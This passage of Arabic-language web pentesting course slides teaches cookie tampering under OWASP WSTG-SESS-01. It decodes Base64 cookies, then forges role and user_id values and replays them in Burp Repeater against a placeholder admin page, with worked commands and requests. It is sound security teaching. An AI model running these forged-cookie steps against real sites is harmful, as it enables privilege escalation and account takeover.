> **Cookie Tampering** هو إنك بعد ما فهمت البنية — تعدل في القيم وتبعت الـ Cookie المعدلة للسيرفر عشان تشوف هل هيقبلها ولا لأ.

### ليه ده مهم؟

لأن كتير من المبرمجين بيفتكروا إن الـ Cookie "مخفية" عن المستخدم. فبيحطوا فيها بيانات حساسة زي:
- الـ Username أو User ID
- الـ Role (admin/user/guest)
- صلاحيات محددة
- حتى أحياناً الباسورد! نادرا جدا بس قريتها في writeup قديم شوية

وده غلط كبير لأن المستخدم (أو المهاجم) يقدر يشوف ويعدل أي Cookie باستخدام DevTools أو Burp Suite.

---

## Slide 90: تحليل بنية الـ Cookie (Reverse Engineering)
### سلايد 90:

### Cookie Structure & Encoding — خطوات التحليل

### الخطوة 1: اجمع الـ Cookie

```http
# من Burp Suite — HTTP History:
Set-Cookie: token=YWRtaW46MTcwODEwMDAwMDphZG1pbg==
```

### الخطوة 2: حدد نوع الـ Encoding

```python
import base64

cookie_value = "YWRtaW46MTcwODEwMDAwMDphZG1pbg=="

# جرب Base64 Decode:
decoded = base64.b64decode(cookie_value).decode()
print(decoded)
# النتيجة: "admin:1708100000:admin"
#           │       │           │
#           │       │           └── الـ Role!
#           │       └── Timestamp!
#           └── Username!
```

### الخطوة 3: افهم البنية (Pattern)



**شرح الـ Diagram:**
الـ diagram بيوضح عملية الـ Reverse Engineering. الـ Cookie اللي شكلها عشوائي (Base64) لما بنعمل Decode — بنلاقي فيها بيانات واضحة: Username + Timestamp + Role. كل واحدة فيهم ممكن المهاجم يغيرها — يحط Username مختلف، يحدث الـ Timestamp، أو يغير الـ Role لـ admin.

### أنواع الـ Encoding اللي ممكن تقابلها:



---

## Slide 91: التلاعب بالـ Cookies (Tampering)
### سلايد 91:

### Cookie Manipulation/Tampering — الأنواع

### النوع 1: Privilege Escalation عن طريق الـ Role

```
الـ Cookie الأصلية (Decoded):
{"user": "ahmed", "role": "guest"}

المهاجم يغير:
{"user": "ahmed", "role": "admin"}

يعملها Encode تاني ويبعتها...
لو السيرفر قبلها = Privilege Escalation!
```

### النوع 2: Account Takeover عن طريق الـ User ID

```
الـ Cookie الأصلية (Decoded):
{"user_id": "42", "session": "active"}

المهاجم يغير:
{"user_id": "1", "session": "active"}
              ↑
    User ID 1 = غالباً Admin!

لو السيرفر قبلها = دخل حساب الـ Admin!
```

### النوع 3: Session Hijacking عن طريق Token Reuse

```
لو الـ Session Token ثابت (Static) أو متوقع:

المهاجم بياخد Token من جلسته:
Cookie: session=USER_42_SESSION

بيغيره:
Cookie: session=USER_1_SESSION

لو السيرفر قبله = Session Hijacking!
```

### إزاي بنعمل ده عملياً في Burp Suite:

```
خطوات عملية:

1. سجل دخول بحساب عادي
2. في Burp → HTTP History → شوف الـ Set-Cookie
3. خد قيمة الـ Cookie وحطها في Decoder:
   → Base64 Decode → URL Decode → شوف النتيجة
4. لو لقيت بيانات مفهومة → عدلها:
   → غير role من "user" لـ "admin"
   → غير user_id من "42" لـ "1"
5. اعملها Encode تاني بنفس الطريقة
6. في Repeater → بدل الـ Cookie القديمة بالجديدة
7. ابعت الـ Request وشوف الـ Response:
   → لو لاقيت السيناريو دا نجح معاك يبقي الحجة دعيالك في صلاة الفجر 
```

> **🔴 من واقع الـ Pentesting:** لا مفيش بس قولت احطها الديزاين بتاعها حلو مش اكتر 

---

## Slide 92: الـ Lab العملي — Cookie Tampering
### سلايد 92:

### Lab Demo: Testing Session Management Schema — Cookie Tampering

### السيناريو:
عندنا تطبيق ويب بيحفظ بيانات المستخدم في Cookie مشفرة بـ Base64. مطلوب نكتشف البنية ونعمل Privilege Escalation.

### الخطوات:

**الخطوة 1: سجل دخول بحساب عادي وشوف الـ Cookie**
```http
# Response بعد Login:
Set-Cookie: auth=dXNlcj1ndWVzdDtyb2xlPXVzZXI=; Path=/
```

**الخطوة 2: حلل الـ Cookie**
```bash
# في Terminal:
echo "dXNlcj1ndWVzdDtyb2xlPXVzZXI=" | base64 -d
# النتيجة: user=guest;role=user
```

**الخطوة 3: عدل الـ Cookie**
```bash
# زور Cookie جديدة:
echo -n "user=guest;role=admin" | base64
# النتيجة: dXNlcj1ndWVzdDtyb2xlPWFkbWlu
```

**الخطوة 4: ابعت الـ Cookie المعدلة في Burp Repeater**
```http
GET /admin HTTP/1.1
Host: target.com
Cookie: auth=dXNlcj1ndWVzdDtyb2xlPWFkbWlu
```

**الخطوة 5: شوف النتيجة**
```http
HTTP/1.1 200 OK
# لو فتحت صفحة الـ Admin = Privilege Escalation! 
```

---

## Slide 93: المراجع
### سلايد 93:

### المراجع:

1. **OWASP Web Security Testing Guide (WSTG)** — Testing for Session Management Schema
   - [WSTG-SESS-01](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/01-Testing_for_Session_Management_Schema)

2. **MDN Web Docs** — HTTP Cookies
   - مرجع ممتاز لفهم كل Cookie Attribute بالتفصيل

3. **Burp Suite Documentation** — Sequencer Tool
   - عشان تتعلم تحليل عشوائية الـ Session Tokens

---

## 🎯 ملخص الجزء السادس

| المفهوم | الشرح |
|---------|-------|
| **Cookies** | قطع بيانات صغيرة المتصفح بيخزنها ويبعتها تلقائياً مع كل Request |
| **HttpOnly** | بيمنع JavaScript من قراءة الـ Cookie — حماية من XSS |
| **Secure** | الـ Cookie بتتبعت بس عبر HTTPS — حماية من Sniffing |
| **SameSite** | بيتحكم في إرسال الـ Cookie مع Cross-Site Requests — حماية من CSRF |
| **Max-Age/Expires** | عمر الـ Cookie — كل ما أطول كل ما أخطر |
| **Reverse Engineering** | تحليل بنية الـ Cookie وفك الـ Encoding عشان نفهم المحتوى |
| **Cookie Tampering** | تعديل قيم الـ Cookie (Role, User ID) ونشوف هل السيرفر بيقبلها |
| **WSTG-SESS-01** | معيار OWASP لاختبار مخطط إدارة الجلسات |

> **📝 الجزء الجاي (Session 7):** هندخل في **Session Hijacking و Session Fixation** — هنشوف إزاي المهاجم بيسرق الجلسة أو بيثبتها، والفرق بين الاتنين، وإزاي بنختبرهم عملياً.
